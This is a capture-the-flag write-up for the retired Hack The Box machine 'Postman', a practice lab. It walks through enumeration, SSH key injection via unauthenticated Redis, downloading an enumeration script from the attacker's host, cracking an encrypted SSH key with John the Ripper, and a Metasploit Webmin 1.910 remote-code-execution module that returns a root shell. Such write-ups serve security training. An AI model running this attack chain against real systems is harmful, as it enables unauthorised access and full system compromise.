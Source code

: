 # Postman

This is the write-up for the box Postman that got retired at the 14th March 2020.
My IP address was 10.10.14.14 while I did this.

Let's put this in our hosts file:
```
10.10.10.160    postman.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/postman.nmap 10.10.10.160
```

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Full TCP port scan:
```
nmap -p- -o nmap/postman_allports 10.10.10.160
```
```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
10000/tcp open  snet-sensor-mgmt
```

## Checking HTTP (Port 80)

The web page shows a welcome page to _"The Cyber Geek's Personal Website_ and also says that it is _"Unter Construction! Coming Soon!"_.
There is nothing interesting in the HTML source code, so lets search for hidden directories with **Gobuster**:
```
gobuster -u http://10.10.10.160 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds no relevant directories.

## Checking HTTP (Port 10000)

The web page on port 10000 shows the following message:
```
Error - Document follows

This web server is running in SSL mode. Try the URL https://Postman:10000/ instead.
```

The hostname _postman_ has to be put in the _/etc/hosts_ file to connect to the HTTPS site.
It then forwards to a [Webmin](https://www.webmin.com/) login form, which is an open source web-based interface for system administration for Unix systems:

![Webmin Login page](postman_web-1.png)

There is no further attack surface here for now.

## Checking Redis (Port 6379)

A connection to the **Redis** service can be established with `nc` and it is possible to use [commands from the Redis documentation](https://redis.io/commands). For example the `INFO` command:
```
nc -v 10.10.10.160 6379

INFO
$2724
# Server
redis_version:4.0.9
(...)
config_file:/etc/redis/redis.conf
```

By installing the _redis-tools_, it is more comfortable to enumerate the box:
```
apt install redis-tools
```
```
redis-cli -h 10.10.10.160
```

With the commands, it is possible to put our own SSH key into the _authorized keys_.
Creating own SSH key:
```
ssh-keygen -f postman
```

The public key has to have two line breaks at the beginning of the file and also two line breaks at the end to successfully write it.

Forwarding the public SSH key to the Redis service:
```
cat postman.pub | redis-cli -h 10.10.10.160 -x set crackit
```

Connecting to the Redis service:
```
redis-cli -h 10.10.10.160
```

Writing the generated SSH key into the _authorized_keys_:
```
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
```

After guessing the username as _redis_, it is possible to SSH into the box:
```
ssh -i postman redis@10.10.10.160
```

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Linux Enumeration script**:
```
wget 10.10.14.14/LinEnum.sh

./LinEnum.sh
```

After enumerating the box, there is a backup of a SSH key found in _/opt/id_rsa.bak_ that is encrypted:
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C
(...)
```

There is another user on the box called _Matt_ that it could belong to.
Trying to crack it with **John The Ripper**:
```
sshng2john id_rsa.bak > postman_id_rsa.john

john postman_id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
```

It gets cracked and the password for the SSH key is:
> computer2008

With this password, it is possible to switch users to _Matt_:
```
su - Matt
```

### Privilege Escalation to root

The credentials of _Matt_ also work on the **Webmin web interface** that was found earlier.
The version running is **Webmin 1.910**, so lets search for vulnerabilities in that:
```
searchsploit webmin
```
```
Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)
```

There is a **Metasploit module** that exploits a remote code execution vulnerability in the _Package Updates_:
```
msf6 > use exploit/linux/http/webmin_packageup_rce

msf6 exploit(linux/http/webmin_packageup_rce) > set LHOST tun0
msf6 exploit(linux/http/webmin_packageup_rce) > set RHOSTS 10.10.10.160
msf6 exploit(linux/http/webmin_packageup_rce) > set USER
msf6 exploit(linux/http/webmin_packageup_rce) > set USERNAME Matt
msf6 exploit(linux/http/webmin_packageup_rce) > set PASSWORD computer2008
msf6 exploit(linux/http/webmin_packageup_rce) > set SSL true

msf6 exploit(linux/http/webmin_packageup_rce) > exploit
```

After running the exploit successfully, it starts a shell session as root!
